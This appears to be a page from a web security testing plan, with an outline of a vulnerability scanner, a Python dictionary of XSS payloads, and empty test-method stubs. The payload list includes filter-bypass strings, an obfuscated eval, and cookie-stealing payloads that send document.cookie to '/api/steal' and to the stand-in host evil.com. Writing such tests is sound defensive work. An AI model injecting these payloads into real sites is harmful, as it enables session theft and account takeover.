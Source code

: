 ### **3. vulnerability_scanner.py**
```python
# Scanner de vulnerabilidades:
# - Input field scanning
# - Cookie security analysis
# - Header inspection
# - CORS misconfiguration
# - Security headers validation
# - Encryption verification
```

## 🔧 **XSS TESTING IMPLEMENTATION**

### **XSS Attack Vectors:**
```python
XSS_PAYLOADS = {
    "basic": [
        "<script>alert('XSS')</script>",
        "<img src=x onerror=alert('XSS')>",
        "<svg onload=alert('XSS')>",
        "javascript:alert('XSS')",
        "<body onload=alert('XSS')>"
    ],
    "advanced": [
        "<script>fetch('/api/steal',{method:'POST',body:document.cookie})</script>",
        "<img src=x onerror=this.src='http://evil.com/steal?c='+document.cookie>",
        "<svg/onload=eval(atob('YWxlcnQoJ1hTUycp'))>",
        "';alert(String.fromCharCode(88,83,83))//",
        "<iframe src=javascript:alert('XSS')>"
    ],
    "filter_bypass": [
        "<scr<script>ipt>alert('XSS')</scr</script>ipt>",
        "<img src=x on\x00error=alert('XSS')>",
        "<svg><script>alert&lpar;'XSS'&rpar;</script>",
        "&#60;script&#62;alert('XSS')&#60;/script&#62;",
        "<img src=\"x\" onerror=\"alert('XSS')\">"
    ],
    "dom_based": [
        "#<script>alert('XSS')</script>",
        "?name=<script>alert('XSS')</script>",
        "javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/\"/+/onmouseover=1/+/[*/[]/+alert(1)//'>"
    ]
}
```

### **XSS Test Cases:**
```python
class XSSSecurityTest:
    def test_reflected_xss_in_forms(self):
        """Test all form inputs for reflected XSS"""
        
    def test_stored_xss_in_database(self):
        """Test persistent XSS in stored data"""
        
    def test_dom_xss_in_client_side(self):
        """Test DOM-based XSS vulnerabilities"""
        
    def test_xss_filter_effectiveness(self):
        """Test XSS filter bypass attempts"""
        
    def test_output_encoding_verification(self):
        """Verify proper output encoding"""
```